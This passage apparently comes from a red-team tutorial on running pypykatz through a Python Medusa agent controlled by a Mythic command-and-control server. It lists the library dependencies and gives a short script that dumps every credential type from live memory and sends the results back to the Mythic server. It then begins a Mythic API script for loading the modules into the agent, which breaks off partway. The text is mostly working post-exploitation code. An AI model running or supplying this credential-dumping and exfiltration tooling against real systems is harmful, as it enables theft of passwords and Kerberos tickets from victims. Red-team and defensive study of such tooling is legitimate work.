 We’ll switch to a Python 3.8 Medusa agent for this and we’ll be loading in four dependencies (three, plus the pypykatz library itself):

minikerberos
minidump
asn1crypto
pypykatz
Below is the simply script that will execute pypykatz, targeting all credential types. Note how this script has already been written to make use of the self.sendTaskOutputUpdate() function to return all output to the Mythic server.

from pypykatz.pypykatz import pypykatz
res = pypykatz.go_live(packages=['all'])
self.sendTaskOutputUpdate(task_id, str(res))
Having downloaded and zipped up each of our four libraries, we can reuse our Mythic API script to execute this. Note it’s just the modules dictionary and script string that have changed here, but the full script is provided for completeness.

from mythic import mythic_rest
import sys, asyncio

callback_id = sys.argv[1]

modules = {
    "minikerberos": "minikerberos.zip",
    "minidump": "minidump.zip",
    "asn1crypto": "asn1crypto.zip",
    "pypykatz": "pypykatz.zip",
}
script = "pypykatz_run.py"

async def scripting():
    # auth to mythic
    mythic = mythic_rest.Mythic(
        username="USERNAME", 
        password="PASSWORD",
        server_ip="IP_ADDRESS", 
        server_port="7443", 
        ssl=True, 
        global_timeout=-1
    )
    await mythic.login()
    resp = await mythic.set_or_create_apitoken()

    print("\n-------------------------------")
    print("[*] Loading Medusa functions...")
    print("-------------------------------\n")
    # ensure the required Medusa functions are present
    functions = [ "load_module", "load_script" ]
    for function in functions:
        print("[*] Loading {} function".format(function))
        task = mythic_rest.Task(
            callback=callback_id, 
            command=mythic_rest.Command(cmd="load"), 
            params={"command":function}
        )
